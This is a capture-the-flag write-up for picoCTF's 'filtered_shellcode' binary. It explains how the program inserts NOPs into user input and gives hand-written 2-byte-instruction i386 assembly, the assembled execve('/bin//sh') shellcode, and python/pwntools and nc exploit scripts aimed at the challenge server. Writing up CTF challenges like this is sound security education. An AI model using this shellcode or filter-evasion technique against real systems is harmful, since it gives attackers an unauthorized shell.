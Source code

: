 # FILTERED SHELLCODE

## OVERVIEW & IDEA

- This challenge give us a binary file, below is its informations.

```
λ ~/filtered_shellcode/ file fun

fun: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=325e35378982f451f374c7140c5249bb1c52ab18, not stripped

λ ~/filtered_shellcode/ checksec --file=fun

[*] '~/filtered_shellcode/fun'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

- Let disassemble the binary file and check some functions

![img](/picoCTF/filtered_shellcode/assets/main.png)

- `main()` is obfuscated, but we can see that, the `main()` just do the input and give the input and insert ` -112 = 0x90 ( it is opcode of nop instruction)` at the end of input if its size is odd. Then the program call the `execute()` with argument is address of input and input's size.

- When I check the `execute()`, it is also obfuscated.

![img](/picoCTF/filtered_shellcode/assets/execute.png)

- The program store the input at another location, and it inserts `0x90` at each index `i*4 + 2` and `i*4 + 3`, and each index `i*4 + 1` and `i*4 + 2` are input of user.

- Then the program execute that input as shellcode.

- So what the program actually does is insert `nop` instruction to each 2 bytes of user shellcode. Which will change the shellcode if the shellcode has instructions that take more than 2 bytes.

- The idea to make sure the shellcode is pretty easy, we just use shellcode that uses 2 bytes for one instruction. Then input it to program and done.

## DETAILS

- I use [defuse.ca](https://defuse.ca/online-x86-assembler.htm#disassembly) to disassemble the assembly code does the `execve("/bin//sh", 0, 0)`, the syscall is described in this [link](https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md#x86-32_bit).

- The assembly code that I use.

```asm
xor ecx, ecx                    ; esp - 0x8
mov cl, 0x8
sub esp, ecx

mov eax, esp                    ; eax = esp
xor ebx, ebx                    ; ebx = 0

mov bl, 0x2f                    ; eax[0] = "/"
mov dword ptr [eax], ebx

mov bl, 0x62                    ; eax[1] = "b"
add al, 0x1
mov dword ptr [eax], ebx

mov bl, 0x69                    ; eax[2] = "i"
add al, 0x1
mov dword ptr [eax], ebx

mov bl, 0x6e                    ; eax[3] = "n"
add al, 0x1
mov dword ptr [eax], ebx

add al, 0x1                     ; eax[4] = "/"
mov bl, 0x2f
mov dword ptr [eax], ebx

mov bl, 0x2f                    ; eax[5] = "/"
add al, 0x1
mov dword ptr [eax], ebx

mov bl, 0x73                    ; eax[6] = "s"
add al, 0x1
mov dword ptr [eax], ebx

mov bl, 0x68                    ; eax[7] = "h"
add al, 0x1
mov dword ptr [eax], ebx

mov ebx, esp                    ; ebx = "/bin//sh"
xor eax, eax                    ; eax = 0xb
mov al, 0xb
xor edx, edx                    ; edx = 0
xor ecx, ecx                    ; ecx = 0

int 0x80                        ; execve("/bin//sh", 0, 0);
```

- Each instructions of code just use 2 bytes, so when this shellcode run through the `excecute()`, the program just insert 2 nops after each line of instruction.

![img](/picoCTF/filtered_shellcode/assets/disassembly.png)

- Then assemble the code and I got the shellcode of it

```
shellcode = "\x31\xC9\xB1\x08\x29\xCC\x89\xE0\x31\xDB\xB3\x2F\x89\x18\xB3\x62\x04\x01\x89\x18\xB3\x69\x04\x01\x89\x18\xB3\x6E\x04\x01\x89\x18\x04\x01\xB3\x2F\x89\x18\xB3\x2F\x04\x01\x89\x18\xB3\x73\x04\x01\x89\x18\xB3\x68\x04\x01\x89\x18\x89\xE3\x31\xC0\xB0\x0B\x31\xD2\x31\xC9\xCD\x80"
```

## EXPLOIT

```python
#! /usr/bin/python2
# filename: exp.py

shellcode = "\x31\xC9\xB1\x08\x29\xCC\x89\xE0\x31\xDB\xB3\x2F\x89\x18\xB3\x62\x04\x01\x89\x18\xB3\x69\x04\x01\x89\x18\xB3\x6E\x04\x01\x89\x18\x04\x01\xB3\x2F\x89\x18\xB3\x2F\x04\x01\x89\x18\xB3\x73\x04\x01\x89\x18\xB3\x68\x04\x01\x89\x18\x89\xE3\x31\xC0\xB0\x0B\x31\xD2\x31\xC9\xCD\x80"

print(shellcode)
```
```bash
python2 exp.py > temp.tmp
(cat temp.tmp; cat) | nc mercury.picoctf.net 40525
```

- or

```python
#! /user/bin/python2
# filename: exp.py

from pwn import *

p = remote("mercury.picoctf.net", 40525)

shellcode = "\x31\xC9\xB1\x08\x29\xCC\x89\xE0\x31\xDB\xB3\x2F\x89\x18\xB3\x62\x04\x01\x89\x18\xB3\x69\x04\x01\x89\x18\xB3\x6E\x04\x01\x89\x18\x04\x01\xB3\x2F\x89\x18\xB3\x2F\x04\x01\x89\x18\xB3\x73\x04\x01\x89\x18\xB3\x68\x04\x01\x89\x18\x89\xE3\x31\xC0\xB0\x0B\x31\xD2\x31\xC9\xCD\x80"

p.sendline(shellcode)
p.interactive()
```

## RESULT

![img](/picoCTF/filtered_shellcode/assets/result.png)

